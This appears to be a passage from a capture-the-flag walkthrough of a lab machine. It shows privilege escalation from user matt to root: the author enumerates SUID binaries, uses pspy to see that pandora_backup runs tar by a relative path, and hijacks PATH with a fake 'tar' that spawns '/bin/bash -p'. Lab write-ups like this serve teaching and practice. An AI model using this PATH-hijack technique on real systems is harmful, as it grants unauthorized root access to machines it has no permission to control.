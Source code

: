 - First, a proper session is required for this exploit so get an ssh session as matt
- Now find suid files that matt has access to
```bash
matt@pandora:/dev/shm$ find / -perm /4000 -ls 2>/dev/null                                                                                                    │
   264644    164 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /usr/bin/sudo                                                                        │
   265010     32 -rwsr-xr-x   1 root     root        31032 May 26  2021 /usr/bin/pkexec                                                                      │
   267386     84 -rwsr-xr-x   1 root     root        85064 Jul 14  2021 /usr/bin/chfn                                                                        │
   262764     44 -rwsr-xr-x   1 root     root        44784 Jul 14  2021 /usr/bin/newgrp                                                                      │
   267389     88 -rwsr-xr-x   1 root     root        88464 Jul 14  2021 /usr/bin/gpasswd                                                                     │
   264713     40 -rwsr-xr-x   1 root     root        39144 Jul 21  2020 /usr/bin/umount                                                                      │
   262929     20 -rwsr-x---   1 root     matt        16816 Dec  3 15:58 /usr/bin/pandora_backup                                                              │
   267390     68 -rwsr-xr-x   1 root     root        68208 Jul 14  2021 /usr/bin/passwd
   [TRUNCATED]
```
- The pandora_backup bin is unique and it has the root suid
- with pspy running, try running the binary
```bash
2022/04/23 18:28:49 CMD: UID=0    PID=2358   | /usr/bin/pandora_backup         
2022/04/23 18:28:49 CMD: UID=0    PID=2360   | tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/AAAAA [TRUNCATED]
2022/04/23 18:28:49 CMD: UID=0    PID=2359   | sh -c tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```
- The important part here is the bottom command which is what the backup file is running
- Notice that the path for tar is not absolute -> vulnerable to path corruption
	- Add writeable directory to beginning of path
	- Create a file called tar, make it executable, add a shell payload to the shell
	- Go to added directory and run the suid binary
```bash
# add dir to path
matt@pandora:/dev/shm$ export $PATH=/dev/shm:$PATH

# add malicious tar file & make executable
matt@pandora:/dev/shm$ echo '/bin/bash -p' > tar
matt@pandora:/dev/shm$ chmod +x tar

# run the suid bin and get shell as root
matt@pandora:/dev/shm$ /usr/bin/pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:/dev/shm# id
uid=0(root) gid=1000(matt) groups=1000(matt)
```